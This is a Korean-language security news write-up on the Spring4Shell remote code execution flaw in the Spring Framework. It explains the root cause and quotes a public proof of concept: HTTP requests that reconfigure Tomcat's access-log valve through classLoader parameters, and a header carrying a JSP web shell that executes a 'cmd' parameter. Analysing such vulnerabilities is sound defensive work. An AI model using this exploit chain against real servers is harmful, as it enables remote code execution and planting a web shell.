

## URL

[Spring4Shell: Security Analysis of the latest Java RCE '0-day' vulnerabilities in Spring](https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/)

## Target

- Containers

## Explain
Java 플랫폼의 오픈소스 프레임워크인 Spring Framework에서 원격 코드 실행이 가능한 취약점의 세부 정보가 공개되었습니다. Spring은 다양한 서비스에서 사용되는 인기있는 프레임워크로, 해당 취약점의 파급력이 클 것으로 예상되며 [Log4j의 RCE 취약점이었던 Log4Shell](https://hackyboiz.github.io/2021/12/12/l0ch/2021-12-12/)과 유사한 Spring4Shell, SpringShell 등으로 불리고 있습니다.

> 2월에는 [Spring Framework 관련 라이브러리에서 SpEL(Spring Expression Language) 를 악용한 취약점](https://hackyboiz.github.io/2022/03/03/l0ch/2022-03-03/)이 공개되기도 했습니다.

취약점은 Spring Core의 바인딩 프로세스 `bindRequestParameters`가 캐시의 객체 속성을 가져오기 위해 `getCachedIntrospectionResults` 메서드를 호출할 때 발생합니다.



`getCachedIntrospectionResults` 메서드는 위 사진과 같이 반환값에 클래스 객체가 포함되어 있습니다.

```java
...
@RequestMapping("/index")
	public void vuln(Model model) {
		...
	}
}

http://[host]/index?class.module....
```

따라서 원격에서 HTTP Request를 보내는것만으로 클래스에 접근할 수 있습니다.

취약점의 제보자는 Apache Tomcat에서 `classLoader` 로 Tomcat의 로깅 구성을 수정하고 임의 코드 실행을 트리거하는 [PoC를 공개했습니다.](https://github.com/tweedge/springcore-0day-en/blob/main/ANALYSIS_EN.md)

```c
http://[host]/index?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7b%66%75%6
http://[host]/index?class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp
http://[host]/index?class.module.classLoader.resources.context.parent.pipeline.first.directory=%48%3a%5c%6d
http://[host]/index?class.module.classLoader.resources.context.parent.pipeline.first.prefix=fuckJsp
http://[host]/index?class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=

...

GET /stupidRumor_war_exploded/fuckUUUU HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.7113.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
fuck: <%Runtime.getRuntime().exec(request.getParameter("cmd"))%>
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```